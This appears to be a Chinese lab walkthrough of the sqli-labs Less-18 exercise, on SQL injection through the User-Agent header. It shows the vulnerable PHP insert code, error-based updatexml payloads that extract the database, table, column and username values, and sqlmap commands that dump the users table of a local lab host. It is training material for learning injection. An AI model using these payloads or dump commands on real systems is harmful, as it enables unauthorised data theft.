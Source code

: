 ```yaml
---
title: less18
url: https://www.yuque.com/u29002979/ep2zrx/gfgn1kfnnkq1xr8x
---
```


```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

源码这里当用户名跟密码都有输入的时候才能触发的，可以看到用户名和密码都被过筛了，也就是不能在这里进行SQL注入了

> **Your IP ADDRESS is: 192.168.31.119**

网页记录了本地ip的信息，说明可能事数据库记录了本机的信息，
即后台获取了一些诸如Ip的信息保存 到数据库中，
并且页面返回了数据包**user-agent**的信息，
那么在请求头中就可能存在注入点\ <a name="hHPE1"></a>

# 请求头注入

> 源代码标识获取浏览器信息，即user-Agent部分，
> 表示客户端通过什么浏览器向后台请求
> 在后面的请求中也有将该部分进行存储添加到数据库，
> 现在就可以通过一些手段在数据添加的同时进行注入

<a name="Y51fI"></a>

## 报错注入

<a name="JHCAA"></a>

### 爆破数据库名称

1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
不能像常规的报错盲注一样直接上，我们得考虑一下闭合VALUES，假如我们利用的点是$uagent，那构建格式就应该是1',1,1)#，在SQL语句中相当于

```bash
INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('1',1,1)#, '$IP', $uname)
```

> Your IP ADDRESS is: 192.168.31.119
> Your User Agent is: 1',1,updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'

<a name="I1uZq"></a>

### 爆破数据表

`1',1,updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#` <a name="tlVTR"></a>

### 爆破字段名

`1',1, updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` <a name="MrWWa"></a>

### 爆破字段

`1',1, updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` <a name="uA05n"></a>

# sqlmap进行头部注入

> 在头部注入爆破中，sqlmap需要提高扫描等级 level和risk\
> level x(x为1-5)
> 2时会对头部的**cookie**进行扫描注入尝试，
> x>=3时对**user-Agent**,**ip**,**referer** 参数进行扫描
>
> risk x(x 1-3)
> 1时进行大部分扫描
> 2会增加基于事件的测试语句
> 3会增加or语句的sql注入

<a name="pqNBo"></a>

# 检测注入点

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 ` <a name="t2ABA"></a>

# 爆破数据库名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 --current-db` <a name="bdXmy"></a>

# 爆破数据表名

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" --tables` <a name="Dm6EO"></a>

# 爆破字段内容

`sqlmap -u "http://192.168.31.193/Less-18/ " --data="passwd=admin&uname=admin" --batch --level 3 -D "security" -T "users" --dump`
